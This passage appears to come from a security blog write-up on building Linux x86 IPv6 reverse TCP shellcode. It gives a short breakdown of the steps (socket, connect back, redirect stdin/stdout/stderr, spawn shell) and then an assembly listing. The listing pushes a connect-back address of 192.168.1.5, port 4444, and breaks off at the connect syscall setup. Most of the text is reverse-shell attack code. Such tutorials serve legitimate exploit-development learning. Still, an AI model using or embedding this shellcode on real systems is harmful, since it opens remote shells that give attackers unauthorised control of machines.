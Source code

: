 ___

A quick breakdown of above code in C:

* Create a socket
* Connect to the port listening on the server/target IP.
* Redirect STDIN,STDOUT and STDERR to newly created socket.
* Spawn the shell.

The socket creation,making syscall,etc., is pretty much same as of [Bind_TCP_Shell](https://kartikdurg.github.io/2018/07/17/0x1-shell-bind-tcp-ipv6-linux-x86.html) in my previous post, but the structure of the socket should contain information of the IP and port to connect-back. This can be achieved by making use of SYS_CONNECT method in our shellcode:

* EAX register should contain socket call number 0x66.
* EBX register should contain 0x3 ( Refer: /usr/include/linux/net.h )
* ECX should contain pointer to the arguments.

___
Complete Shell_Reverse_TCP_IPV6 shellcode :
```
global _start
section .text

;References:
;(1)http://syscalls.kernelgrok.com/
;(2)https://www.3dbrew.org/wiki/Socket_Services
;(3)https://www.ibm.com/support/knowledgecenter/en/ssw_ibm_i_71/rzab6/cafinet6.htm

_start:
;IPV6 socket creation 
;int socketcall(int call, unsigned long *args);
;sockfd = socket(int socket_family, int socket_type, int protocol);
push byte 0x66        ;socketcall()
pop eax               ;EAX=0x2

xor ebx,ebx           ;zero out ebx

push 0x6              ; IPPROTO_TCP=6
push 0x1              ; socket_type=SOCK_STREAM (0x1)
push 0xa              ; AF_INET6
inc ebx               ; Define SYS_socket = 1
mov ecx,esp           ; save pointer (ESP) to socket() args (ECX)
int 0x80
xchg esi,eax          ; sockfd stored in esi
xor eax,eax

;Connect
;connect(sockfd, (struct sockaddr*)&srvaddr, sizeof(srvaddr)); 
;int socketcall(int call, unsigned long *args);
push DWORD eax        ;sin6_scope_id
push DWORD 0x0501a8c0 ;MY LOCAL IP = 192.168.1.5 | Can be configured to YOUR's
push word 0xffff
push DWORD eax
push DWORD eax
push WORD ax          ;inet_pton(AF_INET6, "::ffff:192.168.1.5", &srvaddr.sin6_addr)
push DWORD eax        ;sin6_flowinfo
push WORD 0x5c11      ;PORT=4444 | 0x5c11 | Can be configured to YOUR's
push WORD 0x0a        ;AF_INET6
mov ecx,esp           ;ECX holds pointer to struct sockaddr_in6
push byte 0x1c        ;sizeof(sockaddr_in6) | sockaddr_in6 = 28
push ecx              ;pointer to sockfd
push esi              ;sockfd
mov ecx,esp           ;ECX points to args
inc ebx
inc ebx               ;EBX = 0x3 | #define SYS_Connect 3
```